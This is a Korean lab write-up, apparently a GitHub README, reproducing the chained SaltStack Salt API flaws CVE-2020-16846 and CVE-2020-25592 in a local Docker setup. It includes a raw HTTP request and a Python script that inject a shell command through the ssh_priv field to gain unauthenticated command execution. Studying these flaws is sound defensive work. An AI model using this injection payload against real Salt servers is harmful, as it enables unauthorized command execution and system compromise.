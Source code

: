 # CVE-2020-16846 실습

### 요약

- Salt는 동적 통신 버스를 기반으로 구축된 인프라 관리에 대한 새로운 접근 방식임
- 2020년 11월 SaltStack은 CVE-2020-16846 및 CVE-2020-25592라는 두 가지 취약점을 공식적으로 공개했음
- CVE-2020-25592는 임의의 사용자가 SSH 모듈을 사용할 수 있도록 허용함
- CVE-2020-16846은 사용자가 임의의 명령을 실행할 수 있도록 허용함
- 이 두 가지 취약점을 연결하면 무단 공격자가 Salt API를 통해 임의 명령을 실행할 수 있

### 환경 구성 및 실행

- 도커 환경 구축
    - docker compose up -d

- SaltStack -master가 시작된 후 다음 포트가 수신됨
    - 4505.4506 : 마스터와 미니언 사이의 다리 역할을 하는 SaltStakc -Master 서버
    - 8000 : Salt의 API 서버, SSL이 필요
    - 2222 : 컨테이너 내부의 SSH 서버
    
- [localhost:8000/run](http://localhost:8000/run) 서버 구축
    ![1](https://github.com/vlrhsgody/CVE_Docker/assets/106510018/69e2e445-35af-48f5-8d58-e9891e67073c)

    
    

### 취약점 재현 단계


- https://localhost:8000/run에 다음과 같은 요청을 보냄
    
    ```python
    POST /run HTTP/1.1
    Host: 127.0.0.1:8000
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: application/x-yaml
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 87
    
    token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
    ```
    

### 익스플로잇 진행

- 위 요청을 보내는 파이썬 코드 작성
    
    ```python
    import requests
    
    url = "https://127.0.0.1:8000/run"
    
    headers = {
        "Host": "127.0.0.1:8000",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    
    data = {
        "token": "12312",
        "client": "ssh",
        "tgt": "*",
        "fun": "a",
        "roster": "whip1ash",
        "ssh_priv": "aaa|touch /tmp/success;"
    }
    
    # SSL 검증을 비활성화하여 요청을 보냅니다.
    response = requests.post(url, headers=headers, data=data, verify=False)
    
    # 서버 응답을 출력합니다.
    print(response.text)
    ```
    
- touch /tmp/success 매개변수를 통해 성공 여부를 확인할 수 있음
    ![2](https://github.com/vlrhsgody/CVE_Docker/assets/106510018/329d31d1-793c-4560-8818-7b14aafe91c0)

